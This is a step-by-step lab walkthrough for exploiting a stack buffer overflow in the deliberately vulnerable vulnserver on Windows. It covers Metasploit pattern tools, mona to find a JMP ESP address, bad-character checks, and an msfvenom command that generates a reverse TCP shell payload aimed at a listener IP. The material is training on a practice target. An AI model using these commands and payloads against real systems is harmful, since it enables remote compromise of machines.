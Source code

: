 1. Use `fuzz.py` to know how many A will get overflow.

    You will see AAAA on EIP `CPU - thread 000006BC` window

2. Use pattern to locate where EIP is

    ```sh
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 396F4338
    [*] Exact match at offset 2006
    ```

3. Observer and find that ESP is pointing to the begining of CCCCCC

    ![hashdump](../../images/vuln_bbbb.png)

4. Expand the payload from 2100 to 2500 by increase the length of CCCC section, Run again and confirm that this works.

    ![hashdump](../../images/vuln_490c.png)

5. Bad characters checker, badchars is \x00 only, see code at bad_chars.py

6. Call `!mona modules`, the result is display on `Log data` windows, find that vulnserver.exe and vulnserver.dll is not protected.

    ![hashdump](../../images/vuln_modules.png)

7. Inspect the memory map on `Memory map` windows

    ![hashdump](../../images/vuln_memory_map.png)

8. /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

    ```
    root@kali:~/Desktop/exercise/7_win_bufferoverflow/vulnserver# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    jmp esp 
    nasm > jmp esp
    00000000  FFE4              jmp esp
    ```

9. use mona to find address => 0x625011af

    `!mona find -s "\xff\xe4" -m essfunc.dll`

    ![hashdump](../../images/vuln_dll_ffe4.png)

10. update the script to replace B with address  \xaf\x11\x50\x62, set breakpoint at 0x625011af

    ![hashdump](../../images/vuln_exec_cccc.png)

11. run pre_exploit.py, the breakpoint trigger and run to CCCCCC

    ![hashdump](../../images/vuln_breakpoints.png)

12. Now create a payload and replace the CCC section

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00"
    ```

13. Create and run exploit.py, and a reverse shell is spawn.

    ![hashdump](../../images/reverse_shell.png) 

## Extra knowledge

!!! Dont attach to an existing process, use open.


Explain of NXCOMPACT, only protect 
https://blog.csdn.net/zhou191954/article/details/38048345

